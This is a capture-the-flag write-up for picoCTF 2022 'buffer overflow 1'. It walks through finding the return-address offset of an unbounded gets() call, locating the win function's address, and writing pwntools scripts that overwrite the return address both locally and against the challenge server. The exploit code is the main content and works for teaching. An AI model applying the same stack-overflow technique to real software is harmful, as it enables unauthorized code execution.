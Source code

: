 # buffer overflow 1

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 200
Tags: picoCTF 2022, Binary Exploitation
Author: SANJAY C / PALASH OSWAL

Description:
Control the return address

Now we're cooking! You can overflow the buffer and return to the flag function in the program.
You can view source here. And connect with it using nc saturn.picoctf.net 64722

Hints:
1. Make sure you consider big Endian vs small Endian.
2. Changing the address of the return pointer can call different functions.
```

## Solution

### Analyze the given files

Lets start by looking at the given files. First the C source code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
We have a `main` function that calls a `vuln` function that is vulnerable to a [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow) due to the unbounded `gets` call. If we input more than `BUFSIZE`, that is 32 characters/bytes, we can overwrite the return address on the stack to call the `win` function instead of returning to `main`.

The `vuln` file is a 32-bit ELF binary
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ file vuln        
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=685b06b911b19065f27c2d369c18ed09fbadb543, for GNU/Linux 3.2.0, not stripped
```

### Manually identifying the offset

Next, we need to identify the offset on the stack to the return address from `vuln`. If we send a specific sequence of characters that is a [de Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence) we can easily calculate the offset to the memory address. 

Creation of such a sequence can be done with [pwntools](https://docs.pwntools.com/en/stable/index.html) `cyclic` or [metasploits](https://www.metasploit.com/) `msf-pattern_create`.

And the lookup of the offset can then be done with `cyclic` or `msf-pattern_offset`.

Lets create a string that is a bit longer than `32` bytes. Lets go for 100.
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ ~/python_venvs/pwntools/bin/cyclic 100   
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ ~/python_venvs/pwntools/bin/cyclic 100 > pattern_100.txt
```

Then we try it out locally
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ cat pattern_100.txt | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c
zsh: done                cat pattern_100.txt | 
zsh: segmentation fault  ./vuln
```

The returned value is `0x6161616c`. Lets look this up
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ ~/python_venvs/pwntools/bin/cyclic -l 0x6161616c  
44
```

So the offset on the stack to the return address is `44`.

### Get the addess of the win function

Now we need to find out the virtual address of the `win` function.  
This can be done with `objdump`
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ objdump -t vuln | grep win
080491f6 g     F .text  0000008b              win
```

Or gdb
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ gdb -batch -ex 'info functions' vuln | grep win
0x080491f6  win
```
So the address to `win` is `0x080491f6`.

### Write an exploit

Lets write a small exploit in Python
```python
#!/usr/bin/python

from pwn import *
import sys

# Use either cyclic or msf-pattern_create/msf-pattern_offset to find the correct offset
offset = 44
padding = b'A'

goal = p32(0x080491f6)      # Address to win function
payload = padding*offset + goal
    
sys.stdout.buffer.write(payload)
```

Note that I used `sys.stdout.buffer.write` here rather than `print`.  
`print` will most likely UTF-8 encode your output and it won't work!

And then we try it out locally
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ echo "picoCTF{fake_flag}" > flag.txt          

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ ~/python_venvs/pwntools/bin/python local_exploit.py | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{fake_flag}
zsh: done                ~/python_venvs/pwntools/bin/python local_exploit.py | 
zsh: segmentation fault  ./vuln
```
It works, but later the program crashes due to un invalid memory address after the `win` function.

### Get the flag

Lets modify the Python script to connect to the server instead
```python
#!/usr/bin/python

from pwn import *

SERVER = 'saturn.picoctf.net'
PORT = 64722

io = remote(SERVER, PORT)

# Use either cyclic or msf-pattern_create/msf-pattern_offset to find the correct offset
offset = 44
padding = b'A'

goal = p32(0x080491f6)      # Address to win function
payload = padding*offset + goal
    
sys.stdout.buffer.write(payload)
    
io.sendline(payload)
print(io.recvallS())
io.close()
```

And then we run the script to get the flag
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ ~/python_venvs/pwntools/bin/python remote_exploit.py             
[+] Opening connection to saturn.picoctf.net on port 64722: Done
[+] Receiving all data: Done (127B)
[*] Closed connection to saturn.picoctf.net port 64722
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [gdb - Linux manual page](https://man7.org/linux/man-pages/man1/gdb.1.html)
- [objdump - Linux manual page](https://man7.org/linux/man-pages/man1/objdump.1.html)
- [Wikipedia - Buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow)
- [Wikipedia - de Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence)

